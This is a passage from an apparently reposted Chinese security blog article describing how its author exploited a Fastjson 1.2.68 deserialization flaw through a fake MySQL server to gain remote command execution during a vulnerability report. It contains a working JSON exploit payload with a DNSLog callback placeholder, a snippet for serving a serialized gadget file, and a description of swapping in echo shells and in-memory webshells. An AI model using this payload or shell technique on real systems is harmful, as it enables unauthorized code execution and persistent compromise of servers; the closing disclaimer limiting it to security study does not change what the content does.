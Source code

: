 ![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBWIhLU7EsWMNUyTEW5vibo3Ba1NG0GhTxt19JXFQdqMApGJEV2xksVOQ/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
还要修改MySQL_Fake_Server  
项目server.py文件，get_yso_content函数的内容，让其从指定文件中读取  
  
```
with open(r'fastjson1268.bin','rb') as f:    file_content = f.read()return file_content
```  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBZiaciaPtaf8uMgj2b6onicXRJqrFXLRycx2iaauYKhic6za5Kj7Qibrqnc5g/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
将生成的fastjson1268.bin放到server.py文件同级目录中，运行server.py文件  
  
  
user填入yso_xxx就能触发server.py的get_yso_content函数，此时fastjson测试payload为  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 7777,  "info": {    "user": "yso_URLDNS_http://YOUR_DNSLOG",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  
很幸运系统成功触发了命令执行ping xx.dnslog.com  
  
  
到此就完成了RCE，证明漏洞危害，提交报告。  
  
## 反序列化改造  
  
  
查看Y4大佬给出的利用链可以发现，其使用的是  
TemplatesImpl  
进行动态加载字节码，那么直接将字节码改为回显马和内存马也是可以的，我将回显马编译为class文件，然后读取该文件，传入到  
_bytecodes中  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBjuqicFaC4pCcupwZKbbicPuhQYibhrzo3uZlcK7V5kicpof5ahb2ymVPXQ/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBRFYY9hR9zNrKCUN7phRDvRKytSCnpCRaSUsM2mY0lpp6BKFfmXY43Q/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
> **文章来源：Hack之道**  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
